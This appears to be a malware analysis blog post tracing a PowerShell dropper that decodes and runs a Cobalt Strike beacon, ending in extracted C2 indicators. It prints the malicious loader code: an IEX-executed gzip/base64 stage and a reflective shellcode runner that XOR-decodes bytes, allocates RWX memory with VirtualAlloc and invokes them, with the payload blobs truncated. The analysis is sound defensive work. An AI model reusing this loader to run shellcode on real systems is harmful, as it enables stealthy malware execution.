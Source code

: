 ```yaml
---
title: "Cobalt Strike Beacon Dropper Static Analysis"
categories:
  - Malware Analysis
---
```


Cobalt Strike, which was originally developed as a legitimate security tool used for adversary emulation by Red Teams, has become a double-edged sword in the realm of cybersecurity. Malicous actors have cracked the software, since then it's been abused by adversaries ranging from hacktivists to APTs to fufill their needs. This is article is an analysis of the PowerShell script that leads to execution of a Cobalt Strike beacon.  

## Discovery

I recently discovered this malicious PowerShell script from a [Twitter post by @xorJosh](https://twitter.com/xorJosh/status/1655905247334735878). In his tweet he described an Oracle related service was exploited to download and execute a PowerShell script.

[![1](/assets/images/CobaltStrikeBeaconAnalysis1/1.png)](/assets/images/CobaltStrikeBeaconAnalysis1/1.png){: .full}

The malware sample mentioned can be found on [MalwareBazaar](https://bazaar.abuse.ch/sample/9c9e8841d706406bc23d05589f77eec6f8df6d5e4076bc6a762fdb423bfe8c24/). Lets download this ourselves and have a look!

## Static Analysis (Stage 0)

```ruby
$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAAAAA/+y9Wa/qSrIu+rzrV8yHLa21xNo1wBhjjrSla2wwxh09mDqlkjHgBtw3YM49//1GZBoGY865VtXW1rkPV3dKUwyMnU1kNF9ERqSXp+I/lkXmO4UeH0/f/mNzynI/jr4xf/nLuYycAv/GP/7hnop/JFns/MM+HrNTnn/7X3/5t
....QUA"));
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

The PS script starts by defining a variable `s` to Base64 decoded binary data. Once we get to the end of the `s` variable, we see the following:

```ruby
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

This Gzip decompresses the variable `s`, and inputs into the StreamReader object. The contents of the StreamReader object are then passed as input into the IEX function, Invoke-Expression, which executes a given PowerShell command or script. From this, we can take a guess that `s` is gzip compressed, PowerShell code? Let's recreate this process of Base64 decoding & Gzip decompressing in CyberChef.

[![2](/assets/images/CobaltStrikeBeaconAnalysis1/2.PNG)](/assets/images/CobaltStrikeBeaconAnalysis1/2.PNG){: .full}

We can see that indeed, this was more PowerShell code to be executed. Let's download this locally and analyze this script

## Static Analysis (Stage 1)

```ruby
Set-StrictMode -Version 2

function func_get_proc_address {
  Param ($var_module, $var_procedure)   
  $var_unsafe_native_methods = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
  $var_gpa = $var_unsafe_native_methods.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))
  return $var_gpa.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var_unsafe_native_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var_module)))), $var_procedure))
}

function func_get_delegate_type {
  Param (
    [Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
    [Parameter(Position = 1)] [Type] $var_return_type = [Void]
  )

  $var_type_builder = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
  $var_type_builder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags('Runtime, Managed')
  $var_type_builder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $var_return_type, $var_parameters).SetImplementationFlags('Runtime, Managed')

  return $var_type_builder.CreateType()
}

If ([IntPtr]::size -eq 8) {
  [Byte[]]$var_code = [System.Convert]::FromBase64String('bnlicXZrqsZros8DIyMja64+ydzc3Guq/Gui4GdHIiPc8GKb05aBdUsnIyMjeWuq2tzzIyMjIyMjIyMj2yMjIy08mS0jlyruApsib+4Cd0tKUANTUUxEUUJOA0BCTU1MVwNBRgNRVk0DSk0DZ2xwA05MR
  ...OP84/')

  for ($x = 0; $x -lt $var_code.Count; $x++) {
    $var_code[$x] = $var_code[$x] -bxor 35
  }

  $var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))
  $var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)
  [System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)

  $var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))
  $var_runme.Invoke([IntPtr]::Zero)
}

```

The first defined function, `func_get_proc_address()`, basically retrieves the memory address of a specified procedure/function from a specified DLL. We can see this is used here, `$var_var = ... func_get_proc_address kernel32.dll VirtualAlloc), (...`. 

VirtualAlloc is a function of the Win32 API used to allocate a certain region of memory, to the calling process. We can see on the next line the parameters of this function, `$var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)` (We'll get onto this `$var_code` variable in a second). Referencing the [documentation](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) on the VirtualAlloc function reveals:

[![3](/assets/images/CobaltStrikeBeaconAnalysis1/3.png)](/assets/images/CobaltStrikeBeaconAnalysis1/3.png){: .full}

We can now match up the corresponding parameters to the Microsoft documentation, but the one I'm most interested in is `flProtect`, which is set to `0x40`. `flProtect` defines the permissions given to an set allocation of memory.

[![4](/assets/images/CobaltStrikeBeaconAnalysis1/4.png)](/assets/images/CobaltStrikeBeaconAnalysis1/4.png){: .full}

We can see `0x40` is equivalent to `PAGE_EXECUTE_READWRITE`, which indicates the allocated memory is more than likely going to be used to execute malicous code. Let's uncover said code.

```ruby
If ([IntPtr]::size -eq 8) {
  [Byte[]]$var_code = [System.Convert]::FromBase64String('bnlicXZrqsZros8DIyMja64+ydzc3Guq/Gui4GdHIiPc8GKb05aBdUsnIyMjeWuq2tzzIyMjIyMjIyMj2yMjIy08mS0jlyruApsib+4Cd0tKUANTUUxEUUJOA0BCTU1MVwNBRgNRVk0DSk0DZ2xwA05MR
  ...OP84/')

  for ($x = 0; $x -lt $var_code.Count; $x++) {
    $var_code[$x] = $var_code[$x] -bxor 35
  }
```

Going through this line by line, we first see a conditional statement, `If ([IntPtr]::size -eq 8) {...`. `[IntPtr]::size` is an integer that defines the architecture type. In a 32-bit system this is equal to `4` and in a 64-bit system this is equal to `8`. This first line checks if the program is of a 64-bit architecture, if so it'll continue executing, otherwise it'll finish without doing anything.

The next line, `[Byte[]]$var_code = [System.Convert]::FromBase64String('bn...4/')`, Base64 decodes a massive string, and then stores it as a byte array. The for loop that follows this, iterates over each element of this byte array, performing the following operation - `$var_code[$x] = $var_code[$x] -bxor 35`. This just bitwise XORs each element of the array with decimal 35. Interesting...

We can make a conclusion here that the string `bnli...P84/` is XOR encrypted & Base64 encoded. Let's recreate this in CyberChef.

[![5](/assets/images/CobaltStrikeBeaconAnalysis1/5.png)](/assets/images/CobaltStrikeBeaconAnalysis1/5.png){: .full}

We can see the recongizable PE DOS header `MZ` identifiying this file as an Windows Executable. Let's download this file locally and move onto Stage 2!

## Static Analysis (Stage 2)

For confirmation, I used the Linux `file` command to verify I'm dealing with an .exe file.

[![6](/assets/images/CobaltStrikeBeaconAnalysis1/6.PNG)](/assets/images/CobaltStrikeBeaconAnalysis1/6.PNG){: .full}

Let's run the `strings` command, to see if any we can recover anything interesting.

[![7](/assets/images/CobaltStrikeBeaconAnalysis1/7.PNG)](/assets/images/CobaltStrikeBeaconAnalysis1/7.PNG){: .full} 

Interesting, we see `beacon.x64.dll`, certaintly looks dodgy right? [Googling this](https://www.cobaltstrike.com/blog/cobalt-strike-and-yara-can-i-have-your-signature/) reveals this is a common string found in Cobalt Strike beacons. Know we now for sure this a Cobalt Strike beacon, let's try extract the configuration. 

To do this task, I took advanatge of [this](https://github.com/DidierStevens/DidierStevensSuite/blob/master/1768.py) great tool.

[![8](/assets/images/CobaltStrikeBeaconAnalysis1/8.PNG)](/assets/images/CobaltStrikeBeaconAnalysis1/8.PNG){: .full}

From this we can clearly see the IP address is of the C2 server is `81.70.197[.]244` over port `4433` with the HTTPS protocol. We can also see the HTTP C2 communications are sent to a URI of `/jquery-3.3.1.min.js`, in attempt to masquerade as a jsquery request.

Searching this IP on VirusTotal we can see it's been flagged from 2/88 security vendors. Further basic OSINT discovers it to be hosted by the cloud provider [Tencet Cloud Computing Company Limited](https://cloud.tencent.com/)

[![9](/assets/images/CobaltStrikeBeaconAnalysis1/9.png)](/assets/images/CobaltStrikeBeaconAnalysis1/9.png){: .full}